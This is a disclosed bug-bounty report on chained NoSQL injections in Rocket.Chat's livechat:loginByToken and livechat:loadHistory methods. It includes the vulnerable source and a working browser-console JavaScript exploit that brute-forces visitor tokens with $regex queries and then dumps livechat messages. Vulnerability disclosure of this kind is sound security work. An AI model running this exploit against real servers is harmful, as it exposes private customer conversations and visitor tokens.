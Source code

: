 # NoSQL injection leaks visitor token and livechat messages

## Report Details
- **Report ID**: 2580062
- **URL**: https://hackerone.com/reports/2580062
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-06-27T17:35:31.411Z
- **Disclosed**: 2024-07-11T21:53:52.143Z

## Reporter
- **Username**: gronke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
## Summary

Livechat messages can be leaked by combining two NoSQL injections affecting `livechat:loginByToken` (pre-authentication) and `livechat:loadHistory`.

## Description

The `token` parameter of the `livechat:loginByToken` method is not validated and allows NoSQL injection, for instance [`$regex`](https://www.mongodb.com/docs/manual/reference/operator/query/regex/) to efficiently leak existing livechat visitor token 

[apps/meteor/app/livechat/server/methods/loginByToken.ts#L17](https://github.com/RocketChat/Rocket.Chat/blob/dbc79b76164c211eda3cf47b74a6aa94d8831abe/apps/meteor/app/livechat/server/methods/loginByToken.ts#L17)

```javascript
Meteor.methods<ServerMethods>({
  async 'livechat:loginByToken'(token) {
    methodDeprecationLogger.method('livechat:loginByToken', '7.0.0');
    const visitor = await LivechatVisitors.getVisitorByToken(token, { projection: { _id: 1 } });

    if (!visitor) {
      return;
    }

    return {
      _id: visitor._id,
    };
  },
});
```

With a known visitor token, an authenticated adversary can load the message history by guessing a room ID or using another NoSQL injection in this methods `rid` parameter. The method requires a valid visitor token, which is known from the first step.

[apps/meteor/app/livechat/server/methods/loadHistory.ts#L30](https://github.com/RocketChat/Rocket.Chat/blob/dbc79b76164c211eda3cf47b74a6aa94d8831abe/apps/meteor/app/livechat/server/methods/loadHistory.ts#L30)

```javascript
Meteor.methods<ServerMethods>({
  async 'livechat:loadHistory'({ token, rid, end, limit = 20, ls }) {
    methodDeprecationLogger.method('livechat:loadHistory', '7.0.0');

    if (!token || typeof token !== 'string') {
      return;
    }

    const visitor = await LivechatVisitors.getVisitorByToken(token, { projection: { _id: 1 } });

    if (!visitor) {
      throw new Meteor.Error('invalid-visitor', 'Invalid Visitor', {
        method: 'livechat:loadHistory',
      });
    }

    const room = await LivechatRooms.findOneByIdAndVisitorToken(rid, token, { projection: { _id: 1 } });
    if (!room) {
      throw new Meteor.Error('invalid-room', 'Invalid Room', { method: 'livechat:loadHistory' });
    }

    return loadMessageHistory({ userId: visitor._id, rid, end, limit, ls });
  },
});
```

## Releases Affected:

  * https://open.rocket.chat
  * `develop`

## Steps To Reproduce:

  1. Login to a Rocket.Chat appliance with Livechat enabled (e.g. https://open.rocket.chat)
  2. Open Web Inspector
  3. Execute Proof-of-Concept

## Proof of Concept

```javascript
var pool = "0123456789abcdef";
var rate_limit = 4; // requests per second

var guessVisitorToken = (knownValid, guesses) => {
  return new Promise((resolve, reject) => {
    if (!guesses.length) {
      return reject();
    }
    const guess = { "$regex": `^${knownValid}[${guesses}]` };
    console.log("Meteor.call", "livechat:loginByToken", guess);
    Meteor.call("livechat:loginByToken", guess, async (err, data) => {
      await new Promise((resolve) => setTimeout(() => resolve(), (1000 / rate_limit)));
      if (err) {
        console.error(err);
        return reject(err);
      }
      if ((data instanceof Object) && data.hasOwnProperty("_id")) {
        resolve(guesses)
      } else {
        reject();
      }
    });
  });
};

var bruteforceVisitorToken = async (knownValid="") => {

  let remainingPool = pool;
  while (true) {
    await new Promise((resolve) => setTimeout(() => resolve(), (1000 / rate_limit)));
    if (remainingPool.length === 0) {
      throw new Error("empty pool");
    } else if (remainingPool.length === 1) {
      await guessVisitorToken(knownValid, remainingPool);
      knownValid += remainingPool[0];
      remainingPool = pool;
      continue;
    } else {
      const middle = Math.ceil(remainingPool.length / 2);
      const left = remainingPool.slice(0, middle);
      const right = remainingPool.slice(middle);
      try {
        await guessVisitorToken(knownValid, left);
        remainingPool = left;
        continue;
      } catch(err) {}

      try {
        await guessVisitorToken(knownValid, right);
        remainingPool = right;
        continue
      } catch(err) {}
      return knownValid;
    }
  }
}

const { messages, token } = await bruteforceVisitorToken("")
  .then((token) => {
    console.log("Token leaked", token);
    return new Promise((resolve, reject) => {
      Meteor.call("livechat:loadHistory", { token, rid: { "$regex": ".*" } }, (err, messages) => {
        if (err) {
          console.log("failed to leak messages");
          return reject();
        }
        resolve({ token, messages })
      })
    });
  })
  .catch(console.error);

console.log({ token, messages });
```

## Suggested mitigation

  * Validate `token` parameter of`livechat:loginByToken` method to be a String.
  * Validate `rid` parameter of `livechat:loadHistory` method to be a String.

## Impact

Unauthenticated attackers can leak visitor token on Rocket.Chat appliances with Livechat enabled by using a NoSQL injection in the `token` parameter of the `livechat:loginByToken` method. Combined with another NoSQL injection in the `rid` parameter of the `livechat:loadHistory` method, all Livechat messages can be leaked.

## Attachments
No attachments
